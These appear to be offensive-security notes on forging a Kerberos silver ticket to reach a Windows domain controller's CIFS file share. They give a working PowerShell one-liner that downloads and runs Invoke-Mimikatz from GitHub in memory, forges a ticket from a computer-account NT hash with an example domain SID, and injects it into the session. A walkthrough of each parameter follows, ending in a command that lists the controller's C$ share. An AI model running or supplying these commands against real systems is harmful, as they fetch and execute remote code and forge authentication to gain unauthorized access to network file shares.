

CIFS service
CIFS Service
With CIFS Service Ticket can gain the access to the Windows File Share of the Target machine(in our case TESTDC that is the hostname of the DC)
1. The one line Powershell for create a ServiceTicket for CIFS Service:
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1");Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:DANIELE.local /target:TESTDC.DANIELE.local /sid:S-1-5-21-2492168702-2322743348-3414347950 /rc4:be680d0eb8d8c44bfefaaecb69515b9d /startoffset:0 /endin:600 /renewmax:10080 /service:cifs /ptt"';Invoke-Mimikatz -Command '"kerberos::list"'
Initially this PS script should give some error about some “variables that cannot be retrieved because not been set” but at the end should work


Parameters that we should edit
/domain: → Domain FQDN/target: → Target server FQDN. This is formed by <hostname>.<domain>. For example testdc.daniele.local/sid: → SID of the domain
/service: → SPN of the Service for which we want create the Silver ticket. For example with “cifs” we can access to the Windows File Share of the Target machine/rc4: → NT Hash(RC4) of the Computer account. Use /aes128 and /aes256 for using AES keys /startoffset:0 → Optional. When the Ticket is available in minutes(default is 0 that means "right now") . ▪ Use negative numbers for a ticket available from past
▪ Use large number for the future
/endin: → Optional. Ticket lifetime in minutes(default is 10 years). The default setting in Mimikatz is 10 hours==600 minutes/renewmax: → Optional. Ticket lifetime for renewal(default is 10 yeas). The default setting in Mimikatz is 7 days==10080 minutes/ptt or /ticket → It is not possible use both at the same time▪ /ptt inject the ticket in current Powershell process, no need to save the ticket on disk
▪ /ticket save the ticket to a file for later use
PS> dir \\[hostnameDC].[FQDN]\c$
